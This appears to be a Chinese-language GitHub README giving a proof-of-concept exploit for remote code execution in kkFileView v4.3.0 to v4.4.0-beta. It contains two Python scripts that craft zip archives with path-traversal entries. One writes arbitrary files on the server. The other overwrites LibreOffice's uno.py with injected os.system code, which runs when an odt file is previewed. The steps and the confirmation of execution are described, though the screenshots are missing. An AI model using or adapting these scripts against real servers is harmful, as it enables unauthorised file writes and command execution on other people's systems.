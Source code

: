 # kkFileView-v4.3.0-RCE-POC

## v4.3.0~v4.4.0-beta

https://github.com/kekingcn/kkFileView/releases/tag/v4.3.0

此版本为官方源代码最新版

### 环境部署

本地源码启动或者docker部署

![img](images/(null)-20240415195822360.(null))

### 任意文件上传

```Python
import zipfile

if __name__ == "__main__":
    try:
        binary1 = b'1ueeeeee'
        binary2 = b'hacked_by_1ue'
        zipFile = zipfile.ZipFile("hack.zip", "a", zipfile.ZIP_DEFLATED)
        info = zipfile.ZipInfo("hack.zip")
        zipFile.writestr("test", binary1)
        zipFile.writestr("../../../../../../../../../../../../../../../../../../../tmp/flag", binary2)
        zipFile.close()
    except IOError as e:
        raise e
```

制作恶意`hack.zip`，注意里面必须有一个正常文件，例如`test`，便于创建`hack.zip_`缓存文件

![img](images/(null)-20240415195822385-3182302.(null))

上传文件并预览

![img](images/(null)-20240415195822385.(null))

![img](images/(null)-20240415195822430.(null))

发现成功穿越

### RCE

可以任意文件上传，并且可以追加文件内容

经过我研究发现，目标在使用odt转pdf时会调用系统的Libreoffice，而此进程会调用库中的uno.py文件，因此可以覆盖该py文件的内容

```Python
import zipfile

if __name__ == "__main__":
    try:
        binary1 = b'1ue'
        binary2 = b'import os\r\nos.system(\'touch /tmp/hack_by_1ue\')'
        zipFile = zipfile.ZipFile("hack.zip", "a", zipfile.ZIP_DEFLATED)
        info = zipfile.ZipInfo("hack.zip")
        zipFile.writestr("test", binary1)
        zipFile.writestr("../../../../../../../../../../../../../../../../../../../opt/libreoffice7.5/program/uno.py", binary2)
        zipFile.close()
    except IOError as e:
        raise e
```

制作恶意的zip包 上传并预览

![img](images/(null)-20240415195822638.(null))

再随便上传一个odt文件，另其发起libreoffice任务 上传并预览

![img](images/(null)-20240415195822411.(null))

可以看到命令成功被执行

![img](images/rce.png)

uno.py中也确实被写入了内容

![img](images/(null)-20240415195822672.(null))

